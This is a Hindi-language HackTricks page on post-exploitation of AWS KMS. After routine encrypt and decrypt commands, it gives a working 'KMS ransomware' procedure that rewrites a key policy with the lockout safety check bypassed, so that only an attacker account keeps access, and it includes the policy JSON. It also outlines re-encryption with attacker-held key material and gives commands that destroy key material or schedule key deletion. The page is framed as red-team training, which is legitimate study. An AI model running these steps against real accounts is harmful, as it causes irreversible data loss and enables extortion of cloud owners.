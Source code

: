 # AWS - KMS Post Exploitation

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या हमें **Twitter** 🐦 पर **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>
{% endhint %}

## KMS

अधिक जानकारी के लिए देखें:

{% content-ref url="../../aws-security/aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../../aws-security/aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### जानकारी एन्क्रिप्ट/डिक्रिप्ट करें

* **सिमेट्रिक** कुंजी का उपयोग करके
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* **Asymmetric** कुंजी का उपयोग करना:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
{% hint style="warning" %}
यदि 'An error occurred (InvalidCiphertextException) when calling the Decrypt operation:' त्रुटि प्राप्त हो रही है जब आप kms decrypt करने का प्रयास कर रहे हैं, तो **`fileb://`** के बजाय **`--ciphertext-blob file://`** का उपयोग करने का प्रयास करें।

**`file://`** का उपयोग आपको CLI का उपयोग करते समय अपनी पसंदीदा एन्कोडिंग में लिखी गई फाइलों का उपयोग करने की सुविधा देता है।
CLI के संस्करण 1.6.3 और उच्चतर में, आपके पास CLI को फाइल की सामग्री पास करने का एक और तरीका है, **`fileb://`**। यह **`file://`** के समान काम करता है, लेकिन फाइल की सामग्री को टेक्स्ट के रूप में पढ़ने के बजाय, इसे बाइनरी के रूप में पढ़ा जाता है।

अधिकांश मामलों में, **`file://`** आपकी फाइल की सामग्री को इनपुट के रूप में पास करने के लिए पर्याप्त होगा। हालांकि, कुछ मामलों में **`fileb://`** का उपयोग करना आवश्यक हो सकता है ताकि फाइल की सामग्री को टेक्स्ट के बजाय बाइनरी के रूप में पास किया जा सके।
AWS से और पढ़ें: [AWS Blog - Best Practice for Local File Parameters](https://aws.amazon.com/blogs/developer/best-practices-for-local-file-parameters/)
{% endhint %}

### KMS Ransomware

एक हमलावर जिसके पास KMS पर विशेषाधिकार प्राप्त पहुंच है, वह कुंजियों की KMS नीति को संशोधित कर सकता है और **अपने खाते को उन पर पहुंच प्रदान कर सकता है**, वैध खाते को दी गई पहुंच को हटा सकता है।

फिर, वैध खाता उपयोगकर्ता उन कुंजियों के साथ एन्क्रिप्ट की गई किसी भी सेवा की किसी भी जानकारी तक पहुंचने में सक्षम नहीं होंगे, जिससे खाते पर एक आसान लेकिन प्रभावी रैंसमवेयर बन जाएगा।

{% hint style="warning" %}
ध्यान दें कि **AWS managed keys इस हमले से प्रभावित नहीं हैं**, केवल **Customer managed keys** प्रभावित होते हैं।

यह भी ध्यान दें कि **`--bypass-policy-lockout-safety-check`** पैरामीटर का उपयोग करने की आवश्यकता है (वेब कंसोल में इस विकल्प की कमी के कारण यह हमला केवल CLI से ही संभव है)।
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
ध्यान दें कि यदि आप उस नीति को बदलते हैं और केवल एक बाहरी खाते को एक्सेस देते हैं, और फिर इस बाहरी खाते से आप एक नई नीति सेट करने का प्रयास करते हैं ताकि **मूल खाते को वापस एक्सेस दिया जा सके, तो आप ऐसा नहीं कर पाएंगे**।
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Generic KMS Ransomware

#### Global KMS Ransomware

एक और तरीका है जिससे आप एक global KMS Ransomware कर सकते हैं, जिसमें निम्नलिखित चरण शामिल होंगे:

* हमलावर द्वारा आयातित **key material के साथ एक नई कुंजी** बनाएं
* **पिछले संस्करण के साथ एन्क्रिप्ट किए गए पुराने डेटा को** नए के साथ पुनः एन्क्रिप्ट करें।
* **KMS कुंजी को हटाएं**
* अब केवल हमलावर, जिसके पास मूल key material है, एन्क्रिप्टेड डेटा को डिक्रिप्ट कर सकेगा

### Destroy keys
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
ध्यान दें कि AWS अब **पिछली क्रॉस अकाउंट से किए गए कार्यों को रोकता है:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
AWS Hacking सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में या **हमें** **Twitter** 🐦 पर **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **PRs सबमिट करके हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
{% endhint %}
